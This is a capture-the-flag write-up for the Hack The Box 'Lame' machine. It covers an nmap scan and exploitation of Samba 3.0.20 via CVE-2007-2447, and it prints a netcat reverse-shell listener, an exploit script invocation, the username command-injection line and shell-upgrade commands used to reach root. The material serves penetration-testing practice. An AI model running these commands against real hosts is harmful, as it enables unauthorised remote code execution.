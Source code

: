 ```yaml
---
description: Easy box Lame featuring an exploit in Samba
---
```


# HTB Lame

First thing to do is start scanning for open ports.

```bash
➜  ~ sudo nmap -sV -sC -T4 -p- 10.10.10.3
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 18:10 CEST
Stats: 0:02:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.86% done; ETC: 18:12 (0:00:00 remaining)
Nmap scan report for 10.10.10.3
Host is up (0.013s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m20s, deviation: 2h49m45s, median: 17s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-07T12:12:38-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.21 seconds
```

We have several open ports

<table><thead><tr><th width="191">Port</th><th>Description</th></tr></thead><tbody><tr><td>21</td><td>FTP has anonymous access enabled. Its vsftpd 2.3.4 which has serveral vulnerablities like RCE. In this box it could not be exploited.</td></tr><tr><td>22</td><td>SSH, in cases bruteforcing credentials is possible. Certain versions have vulnerablities.</td></tr><tr><td>139</td><td>Samba uses it for older clients</td></tr><tr><td>445</td><td>Samba or SMB running Samba 3.0.20 which is vulnerable to Remote Code Execution.</td></tr></tbody></table>

### <mark style="color:yellow;">CVE-2007-2447</mark>

Samba 3.0.20 also known as the usermap script vulnerablitiy. We can embed a payload in a malicious username with shell metacharachters. When authenticating the server will execute the command in the username. Below a working python script that works.

{% embed url="https://github.com/n3rdh4x0r/CVE-2007-2447" %}

Run the python script

```bash
 python3 samba.py -lh 10.10.14.18 -lp 443 -t 10.10.10.3
```

Listen with netcat:

```bash
nc -lvnp 443
```

{% hint style="info" %}
The script works by using msfvenom to create the payload. The vulnerability lies in the username where we see on line 49:\\

It saves the msfvenom payload in the buf variable\
`buf = generate_payload(args.lh, int(args.lp)).decode()`

\
In the userID variable where we call the buf variable and thus the msfvenom payload will be executed. Using nohup will keep processes/jobs running.

``userID = "/=` nohup " + buf + ""``
{% endhint %}

### <mark style="color:yellow;">Reverse shell</mark>

After running the script we will get connection on our netcat listener on port 443. Often when getting a shell we find we have a very limited shell and things `ctrl + l` dont work. We can upgrade our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then type `ctrl + z`.

```bash
stty raw -echo; fg
exptort TERM=xterm
```

With a more functional shell we can get the flags. By checking our right we find we are root user and so we can get user and root flag.

```bash
root@lame: find / -name user.txt 2>/dev/null
/home/makis/user.txt

root@lame: cat /home/makis/user.txt
<redacted>

root@lame: cat /root/root.txt
<redacted>
```
